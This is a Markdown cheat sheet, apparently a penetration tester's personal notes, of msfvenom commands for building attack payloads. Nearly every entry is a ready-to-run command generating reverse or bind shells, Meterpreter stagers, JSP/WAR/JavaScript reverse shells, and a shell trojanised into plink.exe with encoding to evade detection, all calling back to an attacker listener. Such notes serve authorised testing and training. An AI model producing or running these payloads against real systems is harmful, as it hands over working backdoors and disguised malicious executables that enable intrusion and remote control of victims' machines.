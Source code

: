 ```yaml
---
description: >-
  My various MSFvenom commands to generate shellcode, reverse shells, and
  meterpreter payloads that I end up using over, and over, and over, and over...
---
```

# MSFvenom Cheetsheet
## Shellcode Generation
### Generic Shellcode
```
msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e generic/none
```
### Windows Reverse TCP Shell \(Shellcode x86\)
Only use this one if payload size is no problem and you can't determine the bad chars:
```sh
`msfvenom -a x86 --platform windows -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`
```
### Windows Reverse TCP Shell Embedded in \`plink.exe\`
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o burmat_embedded.exe
```
### Bind Shell Shellcode
```sh
msfvenom -p windows/shell_bind_tcp RHOST=10.11.11.11 LPORT=1337 -b '\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40' -f python
```
## Reverse Shells
Oddball reverse shells that can trip you up. Those "Wait, I  have done this before?" moments. Like when you see Tomcat running with default credentials or a ColdFusion Site \(fuck me...\)
### JSP Reverse Shell
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f raw -o burmat.jsp
```
### JavaScript Reverse Shells
If you are attacking a Windows host:
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f js_le -e generic/none
```
If you are attacking a Linux host:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 CMD=/bin/bash -f js_le -e generic/none`
### WAR \(Java\) Reverse Shell
```sh
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f war -o burmat.war
```
## Meterpreter Payloads
Don't just copy and paste - learn and understand the syntax.  These will all be for x86 machines, so just swap it up to x64 to suite your needs.
### Windows Meterpreter Payload
```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe -o burmat.exe
```
### Windows Meterpreter Reverse HTTPS Payload \(x86\)
```sh
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https LHOST=10.10.10.10 LPORT=443 -e x86/shikata_ga_nai -b '\x00' -f exe -o burmat.exe
```
### Linux Meterpreter Stager
```sh
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.11 LPORT=443 -f elf -o burmat
```